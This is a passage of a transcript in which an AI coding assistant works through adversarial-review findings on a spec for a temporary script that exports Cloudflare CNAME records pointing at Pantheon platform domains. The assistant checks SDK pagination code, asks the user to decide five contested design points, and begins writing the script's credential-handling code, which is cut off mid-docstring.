- **Wrong engine branch named.** R2 and the `resolve_env_marker` docstring say the punctuation-split marker is *"rejected as an unknown substitution."* Tracing `config_substitution` (`configuration.py:57-103`), `env FOO some-default` scores 3 of 5, which lands on the *"no match found for configuration file value"* branch (line 98), not the *"unknown substitution"* branch (line 92). Harmless, but the spec is quoting an operator-visible message that will not appear.
- **`test_collect_entries_does_not_warn_for_two_matches_in_one_zone` pins silence on a duplicate name.** Cloudflare rejects two CNAMEs at one name, so it is unreachable — but the test asserts `warnings == []` for a state where the file silently keeps one `record_id` of two, feeding a *destructive* rewrite. Consider warning on any duplicate name and noting the same-zone case is API-unreachable.
- **Task 5 Step 6 does not activate the venv** (`source .venv/bin/activate`), unlike Task 6 Step 2. Without it, `import cloudflare` fails and the step reports an unrelated error.
- **Zero-zones message misattributes the cause.** *"the credentials likely lack DNS:Read for the zones"* — but zero zones is equally produced by a token lacking `Account:Read` (`accounts.list()` returns nothing → no zones). Naming both costs six words. (Inherited verbatim from `fqdns.py`, so this is a copy-forward, not a new defect.)

---

## Per-dimension verdict

| # | Dimension | Verdict | Relative weight here |
|---|---|---|---|
| 1 | Correctness | **Issues** — 3, 9, 11, 14 (and 7's incomplete mechanism) | **Highest.** The empirical core (R2a, SDK, regex, shlex, tooling) all verified; the failures are in derived claims |
| 2 | Completeness | **Issues** — 2, 6, 8 | **High.** Field 6 is the one that costs the downstream consumer real work |
| 3 | Consistency | **Issues** — 8, 12 (R3 vs code), 15 | Medium |
| 4 | Clarity | **Issues** — 1, 2 | High — PD#8 is unconditional |
| 5 | Feasibility | **PASS with a note** — 13. The code and tests provably build and pass; I ran them | Low; this is the strongest dimension |
| 6 | Maintainability | **PASS.** §8's deletion checklist is complete and matched against `pyproject.toml`/`ruff-check.sh`/`.gitignore`; the PROMPT explicitly waives this dimension | Low (waived by prompt) |
| 7 | Robustness/fragility | **Issues** — 3, 5, 7 (unpinned SDK), 9 | **High.** Finding 5 is the one most likely to ship a silently wrong file |
| 8 | Security | **Issues** — 7. R2a is a genuinely good catch, correctly measured, correctly scoped out for `client.py`, and PD#9-compliant in being written down — but under-described and under-tested | High |
| 9 | Testing | **Issues** — 4, 5, 7, 10, 11. Counts and pass/fail all verified true; the gaps are *which* conditions can go red | **Highest** — this is the dimension PD#14 owns |
| 10 | Observability | **Issues** — 12 | Medium-high |

**Result: NOT PASS.** 15 findings, 5 of them high severity. The spec's empirical spine is unusually well verified — every measured claim I re-derived held, including the subtle SDK one — but the document skips seven mandatory bar sections including the seams table the bar calls load-bearing, declares an exit-code taxonomy that two measured paths escape, rejects a `main()` test on a rationale I disproved in 25 lines, leaves the largest silent-failure mode (pagination truncation) unmentioned and untestable, and drops the fields the downstream reverse rewrite needs.
agentId: a219cac6a2e4e3a6c (use SendMessage with to: 'a219cac6a2e4e3a6c', summary: '<5-10 word recap>' to continue this agent)
<usage>subagent_tokens: 200823
tool_uses: 61
duration_ms: 862594</usage>
```

## Assistant

Reviewer returned **NOT PASS — 15 findings, 5 high severity**. Its empirical verification was thorough (it re-derived every measured claim, including the SDK one, and actually transcribed and ran all 38 planned tests — they pass, and the script lints and type-checks clean).

Ten findings have obvious, low-risk fixes I'll apply directly. Five touch decisions you already made or would change scope, so per `prompts/adversarial-review.md` Step 2 those get an interview rather than a unilateral edit.

### ⚙ Tool call: `Skill`

```json
{
  "skill": "mattpocock-skills:grilling",
  "args": "Contested findings from the adversarial review of development/2026-07-30-platform-domain-util2/SPEC.md: (4) reviewer disproved my rationale for skipping a main() test, but the user explicitly chose \"thin unit tests on the pure parts only\"; (6) reviewer wants ttl/comment/tags/settings added to the output, but the user explicitly chose the minimal \"scalars, first-record-wins\" shape; (13) the plan dispatches a live production Cloudflare run and six git commits to a subagent with no approval STOP, conflicting with CLAUDE.md \"commit only when asked\"; (5) pagination truncation is the largest silent-failure mode and is unmentioned/untestable — should the script actively detect it like find-platform-domains-dns does; (12) observability — single boolean -v vs the repo's -v/-vv/-vvv convention, and no runtime estimate."
}
```

### ↳ Tool result

```
Launching skill: mattpocock-skills:grilling
```

## User

Base directory for this skill: /home/node/.claude/plugins/cache/mattpocock/mattpocock-skills/1.2.0/skills/productivity/grilling

Interview me relentlessly about every aspect of this until we reach a shared understanding. Walk down each branch of the decision tree, resolving dependencies between decisions one-by-one. For each question, provide your recommended answer.

Ask the questions one at a time, waiting for feedback on each question before continuing. Asking multiple questions at once is bewildering.

If a *fact* can be found by exploring the environment (filesystem, tools, etc.), look it up rather than asking me. The *decisions*, though, are mine — put each one to me and wait for my answer.

Do not act on it until I confirm we have reached a shared understanding.


ARGUMENTS: Contested findings from the adversarial review of development/2026-07-30-platform-domain-util2/SPEC.md: (4) reviewer disproved my rationale for skipping a main() test, but the user explicitly chose "thin unit tests on the pure parts only"; (6) reviewer wants ttl/comment/tags/settings added to the output, but the user explicitly chose the minimal "scalars, first-record-wins" shape; (13) the plan dispatches a live production Cloudflare run and six git commits to a subagent with no approval STOP, conflicting with CLAUDE.md "commit only when asked"; (5) pagination truncation is the largest silent-failure mode and is unmentioned/untestable — should the script actively detect it like find-platform-domains-dns does; (12) observability — single boolean -v vs the repo's -v/-vv/-vvv convention, and no runtime estimate.

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"class SyncV4PagePaginationArray\" -A 40 /workspace/.venv/lib/python3.13/site-packages/cloudflare/pagination.py | head -60",
  "description": "Read SDK pagination implementation"
}
```

### ↳ Tool result

```
92:class SyncV4PagePaginationArray(BaseSyncPage[_T], BasePage[_T], Generic[_T]):
93-    result: List[_T]
94-    result_info: Optional[V4PagePaginationArrayResultInfo] = None
95-
96-    @override
97-    def _get_page_items(self) -> List[_T]:
98-        result = self.result
99-        if not result:
100-            return []
101-        return result
102-
103-    @override
104-    def next_page_info(self) -> Optional[PageInfo]:
105-        last_page = cast("int | None", self._options.params.get("page")) or 1
106-
107-        return PageInfo(params={"page": last_page + 1})
108-
109-
110-class AsyncV4PagePaginationArray(BaseAsyncPage[_T], BasePage[_T], Generic[_T]):
111-    result: List[_T]
112-    result_info: Optional[V4PagePaginationArrayResultInfo] = None
113-
114-    @override
115-    def _get_page_items(self) -> List[_T]:
116-        result = self.result
117-        if not result:
118-            return []
119-        return result
120-
121-    @override
122-    def next_page_info(self) -> Optional[PageInfo]:
123-        last_page = cast("int | None", self._options.params.get("page")) or 1
124-
125-        return PageInfo(params={"page": last_page + 1})
126-
127-
128-class CursorPaginationResultInfo(BaseModel):
129-    count: Optional[int] = None
130-
131-    cursor: Optional[str] = None
132-
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"def has_next_page\\|def next_page_info\\|def _get_page_items\" -A 14 /workspace/.venv/lib/python3.13/site-packages/cloudflare/_base_client.py | head -50",
  "description": "Read base pagination contract"
}
```

### ↳ Tool result

```
186:    def has_next_page(self) -> bool:
187-        items = self._get_page_items()
188-        if not items:
189-            return False
190-        return self.next_page_info() is not None
191-
192:    def next_page_info(self) -> Optional[PageInfo]: ...
193-
194:    def _get_page_items(self) -> Iterable[_T]:  # type: ignore[empty-body]
195-        ...
196-
197-    def _params_from_url(self, url: URL) -> httpx.QueryParams:
198-        # TODO: do we have to preprocess params here?
199-        return httpx.QueryParams(cast(Any, self._options.params)).merge(url.params)
200-
201-    def _info_to_options(self, info: PageInfo) -> FinalRequestOptions:
202-        options = model_copy(self._options)
203-        options._strip_raw_response_header()
204-
205-        if not isinstance(info.params, NotGiven):
206-            options.params = {**options.params, **info.params}
207-            return options
208-
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nfrom cloudflare.pagination import V4PagePaginationArrayResultInfo as RI\nprint('result_info fields:', {k: str(v.annotation) for k,v in RI.model_fields.items()})\n\"",
  "description": "Check result_info fields for a truncation detector"
}
```

### ↳ Tool result

```
result_info fields: {'page': 'typing.Optional[int]', 'per_page': 'typing.Optional[int]'}
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nfrom cloudflare.pagination import V4PagePaginationArrayResultInfo as RI\nprint('model_config:', RI.model_config)\nri = RI.model_validate({'page':1,'per_page':100,'count':100,'total_count':237})\nprint('parsed:', ri)\nprint('model_extra:', ri.model_extra)\n\"",
  "description": "Check whether extra result_info fields survive"
}
```

### ↳ Tool result

```
model_config: {'extra': 'allow', 'defer_build': True}
parsed: V4PagePaginationArrayResultInfo(page=1, per_page=100, count=100, total_count=237)
model_extra: {'count': 100, 'total_count': 237}
```

## Assistant

Facts checked before asking (so I only put decisions to you):

- The SDK's `dns.records.list()` returns a **page-number** paginator (`page = last + 1`), ending when a page comes back empty — not the opaque-cursor shape that bit us on the Pantheon API.
- Its `result_info` model declares only `page`/`per_page`, **but** `model_config` is `extra: "allow"`, so Cloudflare's `total_count` survives as an extra field: `page.result_info.model_extra.get("total_count")`. A truncation detector is therefore ~5 lines — reachable, but resting on an undeclared field.

**Question 1 of 5** — finding #6, the one that most directly contradicts a decision you already made.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "The reviewer argues `ttl`/`comment`/`tags`/`settings` belong in the output by the same logic that justified `record_id`/`proxied`. Do you want them?",
      "header": "Extra fields",
      "multiSelect": false,
      "options": [
        {
          "label": "Add ttl + settings only (Recommended)",
          "description": "These two change what the rewrite PRODUCES: research.md's reverse direction hardcodes \"ttl\": 1, silently discarding an explicit TTL, and `settings` carries flatten_cname, which changes resolution behavior. comment/tags are cosmetic metadata — losing them is untidy, not incorrect. ~2 dict keys, 1 assertion.",
          "preview": "\"origins\":   [\"live-….pantheonsite.io\"],\n\"proxied\":   true,\n\"record_id\": \"9f0e…\",\n\"ttl\":       1,\n\"settings\":  {\"flatten_cname\": false},\n\"zone_id\":   \"abc123\""
        },
        {
          "label": "Add all four",
          "description": "ttl, settings, comment, tags. Fully round-trippable: a reverse rewrite can restore the record exactly as it was, including operator notes. Costs 4 keys and makes the entry noticeably wider than an fqdns.json entry."
        },
        {
          "label": "Neither — keep record_id + proxied",
          "description": "Hold the line you already drew. The rewriter is a separate script you control; it can capture whatever it needs at rewrite time from its own list call, when the data is fresh rather than hours stale. Goes to NOT-in-scope with the reviewer's argument recorded."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "The reviewer argues `ttl`/`comment`/`tags`/`settings` belong in the output by the same logic that justified `record_id`/`proxied`. Do you want them?"="Add all four". You can now continue with these answers in mind.
```

## Assistant

All four. (Note for the spec: `settings` is a pydantic model, so it needs `.model_dump()` to be JSON-serializable — I'll pin that in the plan and in a test.)

**Question 2 of 5** — finding #5, which the reviewer rated the likeliest way this ships a silently wrong file.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "How should the script guard against a truncated record list (a page fetch that silently stops early)?",
      "header": "Truncation",
      "multiSelect": false,
      "options": [
        {
          "label": "Cross-check total_count per zone (Recommended)",
          "description": "Read `page.result_info.model_extra.get(\"total_count\")` from the first page; after iterating, compare against records seen. Mismatch → StartupError (exit 2), same posture as zero-zones. No-ops silently when Cloudflare omits total_count, so it can never cause a false abort. ~6 lines + 2 tests with a multi-page fake.",
          "preview": "page = client.dns.records.list(zone_id=zone.id)\nexpected = (page.result_info.model_extra or {}).get(\"total_count\")\nseen = 0\nfor record in page:      # auto-paginates\n    seen += 1; yield zone.id, record\nif expected is not None and seen != expected:\n    raise StartupError(f\"{zone.name}: read {seen} of {expected} records\")"
        },
        {
          "label": "Document and pin the shape only",
          "description": "State in R3 that list() auto-paginates by page number and why that's trusted; make the test fake return a multi-page iterator so the consumption shape is pinned. No runtime detector. Cheapest; accepts that a truncation would be invisible."
        },
        {
          "label": "Detector + per-zone counts at higher verbosity",
          "description": "The detector above, PLUS printing `zone X: N records, M matched` so an operator can eyeball it. Most observable; couples this decision to the verbosity question coming next."
        },
        {
          "label": "Nothing — trust the SDK",
          "description": "Cloudflare's paginator is page-number based and well-exercised; this is a throwaway script. Records the risk in NOT-in-scope and moves on."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "How should the script guard against a truncated record list (a page fetch that silently stops early)?"="Cross-check total_count per zone (Recommended)" selected preview:
page = client.dns.records.list(zone_id=zone.id)
expected = (page.result_info.model_extra or {}).get("total_count")
seen = 0
for record in page:      # auto-paginates
    seen += 1; yield zone.id, record
if expected is not None and seen != expected:
    raise StartupError(f"{zone.name}: read {seen} of {expected} records"). You can now continue with these answers in mind.
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"class BaseSyncPage\" -A 45 /workspace/.venv/lib/python3.13/site-packages/cloudflare/_base_client.py | head -55",
  "description": "Verify iterating a page auto-paginates"
}
```

### ↳ Tool result

```
232:class BaseSyncPage(BasePage[_T], Generic[_T]):
233-    _client: SyncAPIClient = pydantic.PrivateAttr()
234-
235-    def _set_private_attributes(
236-        self,
237-        client: SyncAPIClient,
238-        model: Type[_T],
239-        options: FinalRequestOptions,
240-    ) -> None:
241-        if (not PYDANTIC_V1) and getattr(self, "__pydantic_private__", None) is None:
242-            self.__pydantic_private__ = {}
243-
244-        self._model = model
245-        self._client = client
246-        self._options = options
247-
248-    # Pydantic uses a custom `__iter__` method to support casting BaseModels
249-    # to dictionaries. e.g. dict(model).
250-    # As we want to support `for item in page`, this is inherently incompatible
251-    # with the default pydantic behaviour. It is not possible to support both
252-    # use cases at once. Fortunately, this is not a big deal as all other pydantic
253-    # methods should continue to work as expected as there is an alternative method
254-    # to cast a model to a dictionary, model.dict(), which is used internally
255-    # by pydantic.
256-    def __iter__(self) -> Iterator[_T]:  # type: ignore
257-        for page in self.iter_pages():
258-            for item in page._get_page_items():
259-                yield item
260-
261-    def iter_pages(self: SyncPageT) -> Iterator[SyncPageT]:
262-        page = self
263-        while True:
264-            yield page
265-            if page.has_next_page():
266-                page = page.get_next_page()
267-            else:
268-                return
269-
270-    def get_next_page(self: SyncPageT) -> SyncPageT:
271-        info = self.next_page_info()
272-        if not info:
273-            raise RuntimeError(
274-                "No next page expected; please check `.has_next_page()` before calling `.get_next_page()`."
275-            )
276-
277-        options = self._info_to_options(info)
```

## Assistant

Verified: `__iter__` walks every page, and `result_info` on the held first page carries the total — so the detector is sound as written.

**Question 3 of 5** — finding #12. The sibling `find-platform-domains-dns` uses a single boolean `-v`; the main program uses counted `-v/-vv/-vvv`, which is what PD#5 names.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "What verbosity surface should the script have?",
      "header": "Verbosity",
      "multiSelect": false,
      "options": [
        {
          "label": "Keep the boolean -v (Recommended)",
          "description": "One level: name each zone as it's scanned. Matches the sibling temporary utility exactly, and the truncation detector you just chose is now a hard abort rather than something an operator has to spot in counts — which was the main argument for a -vv tier. Summary still gains the DNS-only count.",
          "preview": "[1/43] zone example.edu\n[2/43] zone example.org\n…\nWrote 12 platform-domain CNAMEs (3 DNS-only, invisible\nto fqdns.json) from 43 zones in 2 account(s) to\nplatform-domains-cloudflare.json."
        },
        {
          "label": "Counted -v / -vv",
          "description": "-v names each zone; -vv adds per-zone record counts (`zone example.edu: 137 records, 2 matched`). Closer to PD#5's literal text and gives an operator a way to sanity-check volume by eye. Costs an argparse change (action=\"count\") and one extra print site.",
          "preview": "-v : [1/43] zone example.edu\n-vv: [1/43] zone example.edu: 137 records, 2 matched\n     [2/43] zone example.org: 12 records, 0 matched"
        },
        {
          "label": "Counted -v / -vv / -vvv",
          "description": "Add a third tier dumping each matched record as it is found. Fullest PD#5 compliance; almost certainly more than a throwaway script needs, and -vvv output would largely duplicate the JSON file."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "What verbosity surface should the script have?"="Keep the boolean -v (Recommended)" selected preview:
[1/43] zone example.edu
[2/43] zone example.org
…
Wrote 12 platform-domain CNAMEs (3 DNS-only, invisible
to fqdns.json) from 43 zones in 2 account(s) to
platform-domains-cloudflare.json.. You can now continue with these answers in mind.
```

## Assistant

**Question 4 of 5** — finding #4. When you chose "thin unit tests on the pure parts", the CLI-level option was described as *"forces a client-injection seam to exist"*. The reviewer disproved that: the fresh-per-test module fixture already makes monkeypatching free, and it wrote and ran the three tests (25 lines, no production change, all pass). So the trade-off you decided on was misstated.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "Add the three main() tests now that the cost is known to be ~25 lines and no production-code change?",
      "header": "main() tests",
      "multiSelect": false,
      "options": [
        {
          "label": "Yes — add all three (Recommended)",
          "description": "Exit 0 (summary text, warning ordering, actual file contents), exit 130 (the INTERRUPTED message), exit 2 (the ERROR line). As specified today exit 130 has ZERO coverage anywhere, and exit 0 is only ever exercised by the live production run — so the exit-code taxonomy in R6 is currently an unverified claim.",
          "preview": "def test_main_writes_the_file_and_reports(fpc, tmp_path, monkeypatch):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda p: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda c, verbose=False: ({…}, [\"ATTENTION: …\"], 4, 1))\n    assert fpc.main([\"-c\", \"ignored.toml\"]) == 0"
        },
        {
          "label": "Yes — exit 130 and exit 2 only",
          "description": "Cover the two error exits (the ones with no other coverage at all) but not the happy path, which the live run in Task 6 exercises end-to-end anyway. ~15 lines."
        },
        {
          "label": "No — hold the earlier decision",
          "description": "Keep main() untested. The exit codes stay verified only by the two by-hand checks in Task 5 Step 6 plus the live run. Records the reviewer's disproof in the spec so the next session knows the rationale was wrong even though the decision stood."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "Add the three main() tests now that the cost is known to be ~25 lines and no production-code change?"="Yes — add all three (Recommended)" selected preview:
def test_main_writes_the_file_and_reports(fpc, tmp_path, monkeypatch):
    monkeypatch.chdir(tmp_path)
    monkeypatch.setattr(fpc, "cloudflare_client", lambda p: object())
    monkeypatch.setattr(fpc, "fetch_platform_cnames",
                        lambda c, verbose=False: ({…}, ["ATTENTION: …"], 4, 1))
    assert fpc.main(["-c", "ignored.toml"]) == 0. You can now continue with these answers in mind.
```

## Assistant

**Question 5 of 5** — finding #13, the process gates. The plan currently tells a subagent to run a live production Cloudflare sweep and to `git commit` six times, both without an approval stop.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "How should the plan handle the live production run and the per-task commits?",
      "header": "Gates",
      "multiSelect": false,
      "options": [
        {
          "label": "STOP before live run; commits pre-authorized (Recommended)",
          "description": "Task 6 Step 2 becomes a structural STOP requiring an exact-phrase unlock from you before any call touches production Cloudflare. The six `git commit` steps get a one-line note at the top of the plan recording that you authorized them for this plan specifically — satisfying CLAUDE.md's \"commit only when asked\" by making the asking explicit and up-front.",
          "preview": "> **STOP — operator approval required.**\n> Steps 2-4 call the live Cloudflare API with production\n> credentials. Do not proceed until the operator replies\n> with the exact phrase: RUN THE LIVE SWEEP\n>\n> The `git commit` step ending each task is authorized\n> for this plan by the operator (2026-07-30)."
        },
        {
          "label": "STOP before live run; strip all commits",
          "description": "Same live-run gate, but every `git commit` step is removed and you commit by hand when you're satisfied. Strictest reading of \"commit only when asked\"; costs you six manual commits and loses the per-task baseline that makes a task-by-task review diffable."
        },
        {
          "label": "STOP before both",
          "description": "An approval stop before the live run AND before the first commit. Maximum control, but a stop that fires at every task boundary makes subagent-driven execution largely pointless."
        },
        {
          "label": "Leave as-is",
          "description": "The live call is read-only and the credentials are already configured; the commits are ordinary TDD hygiene on a branch. Accepts the reviewer's finding as noted-but-declined."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "How should the plan handle the live production run and the per-task commits?"="STOP before live run; commits pre-authorized (Recommended)" selected preview:
> **STOP — operator approval required.**
> Steps 2-4 call the live Cloudflare API with production
> credentials. Do not proceed until the operator replies
> with the exact phrase: RUN THE LIVE SWEEP
>
> The `git commit` step ending each task is authorized
> for this plan by the operator (2026-07-30).. You can now continue with these answers in mind.
```

## Assistant

All five decided. Before I touch the document, here's the complete change set — confirm and I'll apply it.

**From this interview (5 contested findings):**

| # | Decision |
|---|---|
| 6 | Output gains **all four**: `ttl`, `settings` (`.model_dump()`ed — it's a pydantic model), `comment`, `tags`, first-record-wins like the others |
| 5 | Per-zone **`total_count` cross-check** → `StartupError`/exit 2; no-ops when Cloudflare omits it; test fake becomes multi-page |
| 12 | **Boolean `-v` stays**; summary gains the DNS-only count |
| 4 | **All three `main()` tests** added (exit 0 / 130 / 2) |
| 13 | **STOP with exact-phrase unlock** before the live sweep; commits pre-authorized in a note at the top |

**Applied directly (10 findings), no decision needed:**

- **#1** ASCII pipeline diagram (PD#8 — the spec currently has zero; the sibling spec has 34 diagram lines)
- **#2** The seven missing bar sections: Glossary, MUST/SHOULD/MAY/NEVER vocabulary, **Seams table** (the bar calls this load-bearing), PD#3 shadow-path trace, Observability, closing-audit questions, the "tests are load-bearing" NEVER block
- **#3** Two measured escapes from R6's "no exit 1": `OSError` on write and `ValueError` from `shlex.split` on an unbalanced quote both become `StartupError`; exit 120 gets a row cross-referencing §5.4
- **#7** R2a names **both** leak paths (`auth_headers` *and* `default_headers`, which the spec missed); the test asserts on `client.auth_headers`/`default_headers` rather than attribute state; SDK 5.4.0 named as the measured version
- **#8** A "Divergences from the PROMPT" subsection (added fields; normalized keys, which `fqdns.py` does *not* do); Task 6's cross-check normalizes both sides
- **#9** Config credential values type-checked as `str` (sibling spec already litigated this as review finding C1)
- **#10, #11** Task 1's two instrument defects: a lint check that can't go red, and a wrong red-expectation
- **#12 rest** Zero-match `ATTENTION:` message R3 promises but the code lacks; a NEVER-print-API-response-body rule; runtime estimate recorded in §9 after the live run
- **#14, #15** The false `proxied` comment; "stdout is unused" vs argparse; wrong engine branch named; missing `source .venv/bin/activate`; zero-zones message naming only `DNS:Read` when `Account:Read` produces it too

Plus, per `adversarial-review.md`'s closing rule, a section recording **which load-bearing claims the spec had to correct and how they were caught** — the two `main()`-test rationale errors and the `default_headers` miss are exactly what that record exists for.

Then I'll verify the new code samples actually run (write them to scratchpad, lint + type-check + execute the tests) before re-dispatching the reviewer for round 2. Proceed?

## User

yes, proceed

## Assistant

Applying. First I'll build and verify the complete new code in scratchpad, so the spec ships only code I've actually run.

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare",
  "content": "#!/usr/bin/env python\n\"\"\"Write every Cloudflare CNAME record pointing at a Pantheon platform domain to JSON.\n\nTEMPORARY.  Delete after Pantheon's Fastly -> Pantheon-Cloudflare CDN migration completes; see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 8 for the checklist.\n\nStandalone by design: this imports nothing from psh/, check/, plugin/ or script_context, so most\nof removing it is `git rm` of the script, its .py symlink and its test file.  The credential\nread, the account/zone/record walk and the atomic write are COPIES of plugin/cloudflare/fqdns.py\nand plugin/cloudflare/client.py; normalize()/is_platform_domain() are copies of\nfind-platform-domains-dns.\n\nUnlike fqdns.json, this considers ALL records in ALL zones -- not just proxied ones -- and keeps\nonly CNAMEs whose target ends in .pantheonsite.io.  The output file is regenerated in full on\nevery run, whatever its age.\n\nOutput: ./platform-domains-cloudflare.json, keyed by FQDN, values {zone_id, origins, record_id,\nproxied, ttl, comment, tags, settings}.  stdout carries ONLY argparse's usage/--help text; every\noperator message -- warnings, progress, the summary, errors -- goes to stderr, and the result is\nthe file.  Exit 0 = file written, 2 = could not complete, 130 = interrupted.\n\nRequires: the `cloudflare` SDK (declared under this project's `cloudflare` extra, which the\ndocumented `uv pip install .[mysql,aws,cloudflare]` setup line installs) and Cloudflare\ncredentials in the [Cloudflare] section of the config file.\n\"\"\"\nimport argparse\nimport json\nimport os\nimport re\nimport shlex\nimport sys\nimport tempfile\nimport tomllib\nfrom pathlib import Path\n\nimport cloudflare  # for cloudflare.CloudflareError\nfrom cloudflare import Cloudflare\n\nPLATFORM_SUFFIX = \".pantheonsite.io\"   # the leading dot is load-bearing: it rejects\n                                       # \"notpantheonsite.io\"\nOUTPUT_FILE = \"platform-domains-cloudflare.json\"\nDEFAULT_CONFIG = \"pantheon-sitehealth-emails.toml\"\n\n# Copied verbatim from psh/configuration.py.  A marker is \"<{ ... }\" -- the trailing \">\" that\n# appears in the sample config is decorative and NOT part of the syntax.\nMARKER_RE = re.compile(r\"<\\{(.*?)(?<!\\\\)}\")\n\n\nclass StartupError(Exception):\n    \"\"\"Anything that stops the sweep from starting or completing (exit 2).\"\"\"\n\n\ndef normalize(name):\n    \"\"\"Lowercase, strip whitespace and the trailing root dot.  Copied from\n    find-platform-domains-dns.\"\"\"\n    return str(name).strip().rstrip(\".\").lower()\n\n\ndef is_platform_domain(name):\n    \"\"\"True for a Pantheon-provided *.pantheonsite.io hostname.\"\"\"\n    return normalize(name).endswith(PLATFORM_SUFFIX)\n\n\ndef resolve_env_marker(expr, where):\n    \"\"\"Resolve the body of ONE `<{ ... }` marker.  Only the env forms this script needs.\n\n    Accepts `env NAME [DEFAULT]` and `secret env NAME [DEFAULT]` -- the two forms\n    plugin/env/__init__.py registers.  Anything else (`secret aws ...`, `umich ...`) raises,\n    rather than passing the literal marker through: a literal \"<{secret aws ...}\" handed to the\n    API as a token would surface as a baffling 401 instead of a config error.\n\n    Tokenizing deliberately uses shlex.split() rather than the config engine's\n    list(shlex.shlex(expr, posix=True)), which ALSO splits on punctuation and so turns\n    \"env FOO some-default\" into five tokens; the engine then scores 3 of 5 and reports \"no match\n    found for configuration file value\".  The two agree on every marker the main program can\n    actually resolve; this one is marginally more permissive about defaults containing\n    punctuation.\n    \"\"\"\n    try:\n        argv = shlex.split(expr)\n    except ValueError as e:\n        # shlex raises on an unbalanced quote, e.g. <{env FOO don't}.  Without this the\n        # ValueError escapes main() as a raw traceback at exit 1 -- a code section 6 does not use.\n        raise StartupError(f\"{where}: malformed substitution <{{{expr}}}: {e}\") from e\n    if argv[:1] == [\"secret\"]:\n        argv = argv[1:]\n    if argv[:1] != [\"env\"] or not 2 <= len(argv) <= 3:  # noqa: PLR2004 -- NAME, or NAME + DEFAULT\n        raise StartupError(\n            f\"{where}: this script resolves only <{{env NAME}} and <{{secret env NAME}} \"\n            f\"substitutions (each with an optional default), not <{{{expr}}}.  Put a literal or \"\n            \"an environment-backed value there.\")\n    name = argv[1]\n    if name in os.environ:\n        return os.environ[name]\n    if len(argv) == 3:  # noqa: PLR2004 -- the DEFAULT is present\n        return argv[2]\n    raise StartupError(f\"{where}: environment variable '{name}' is not set\")\n\n\ndef resolve_config_value(value, where):\n    \"\"\"Resolve every `<{ ... }` marker inside one config value.  Non-strings pass through.\"\"\"\n    if not isinstance(value, str):\n        return value\n    return MARKER_RE.sub(lambda match: resolve_env_marker(match.group(1), where), value)\n\n\ndef build_client(**creds):\n    \"\"\"Build a Cloudflare client that uses EXACTLY the credentials the config supplied.\n\n    Measured on cloudflare 5.4.0: the SDK back-fills every credential argument left None from the\n    environment (CLOUDFLARE_API_TOKEN / _API_KEY / _EMAIL / _API_USER_SERVICE_KEY), and ambient\n    values then reach the wire by TWO independent routes --\n\n      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is\n         set, and only that one; and\n      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes\n         are not None.\n\n    So Cloudflare(api_token=...) on a host exporting CLOUDFLARE_EMAIL authenticates with\n    X-Auth-Email and never sends the token.  Nulling the fields the config did not supply closes\n    BOTH routes, because both read these attributes at request-build time.  This pin is therefore\n    SDK-version-sensitive: it was measured against 5.4.0, and pyproject declares the dependency\n    unpinned as \"cloudflare\".  (The main program's plugin/cloudflare/client.py has the same\n    latent defect; fixing it is a separate change.)\n    \"\"\"\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\n\n\ndef cloudflare_client(config_path):\n    \"\"\"Build the Cloudflare client from the [Cloudflare] table of the TOML at `config_path`.\n\n    api_token wins when present; otherwise email + api_key, both required -- the same precedence\n    plugin/cloudflare/client.py uses.  `enabled` is deliberately NOT consulted: that flag governs\n    the main program's per-site Cloudflare work, and refusing to run this utility because of it\n    would be a surprise to an operator who invoked it on purpose.\n    \"\"\"\n    try:\n        with Path(config_path).open(\"rb\") as handle:\n            config = tomllib.load(handle)\n    except OSError as e:\n        raise StartupError(f\"cannot read {config_path}: {e}\") from e\n    except tomllib.TOMLDecodeError as e:\n        raise StartupError(f\"{config_path} is not valid TOML: {e}\") from e\n\n    section = config.get(\"Cloudflare\")\n    if not isinstance(section, dict):\n        raise StartupError(f\"{config_path} has no [Cloudflare] section\")\n\n    def value(key):\n        \"\"\"One credential, type-checked where it is read then marker-resolved.\n\n        TOML is a typed format, so `api_token = true` (an unquoted value -- an ordinary typo) is\n        a bool, which `if api_token:` accepts and the SDK stringifies into\n        `Authorization: Bearer True` -- exactly the confusing 401 that resolve_env_marker refuses\n        to cause for an unresolvable marker.  The check belongs here, where the value is read.\n        \"\"\"\n        raw = section.get(key)\n        where = f\"{config_path} [Cloudflare].{key}\"\n        if raw is not None and not isinstance(raw, str):\n            raise StartupError(f\"{where} must be a string, got {type(raw).__name__}\")\n        return resolve_config_value(raw, where)\n\n    api_token = value(\"api_token\")\n    if api_token:\n        return build_client(api_token=api_token)\n    email = value(\"email\")\n    api_key = value(\"api_key\")\n    if not email or not api_key:\n        raise StartupError(\n            f\"{config_path} [Cloudflare] needs either api_token, or both email and api_key\")\n    return build_client(api_email=email, api_key=api_key)\n\n\ndef plain(value):\n    \"\"\"A JSON-serializable copy of an SDK sub-model; anything already plain passes 